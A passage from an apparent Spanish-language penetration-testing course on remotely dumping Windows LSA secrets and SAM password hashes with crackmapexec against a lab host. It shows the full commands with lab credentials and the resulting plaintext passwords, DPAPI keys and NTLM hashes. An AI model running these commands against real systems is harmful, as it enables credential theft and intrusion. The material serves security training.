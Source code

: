 Tengan en cuenta que esta es una técnica bien conocida, por lo que los administradores pueden tener salvaguardas para prevenirla y detectarla. Algunas de estas formas están documentadas en el marco de ataque de MITRE.

## Consideraciones sobre Dumping Remoto y LSA Secrets

Con acceso a credenciales con privilegios de administrador local, también es posible que podamos apuntar a LSA Secrets a través de la red. Esto podría permitirnos extraer credenciales de un servicio en ejecución, tarea programada o aplicación que utiliza LSA secrets para almacenar contraseñas.

### Dumping LSA Secrets Remotamente

```bash
sherlock28@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets y /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

### Dumping SAM Remotamente

También podemos volcar hashes de la base de datos SAM de forma remota.

```bash
sherlock28@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01      bob:1000:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
```

Podemos ver que pudimos volcar la base de datos SAM, obteniendo credenciales útiles que también podemos crackear usando Hashcat o con otras técnicas.
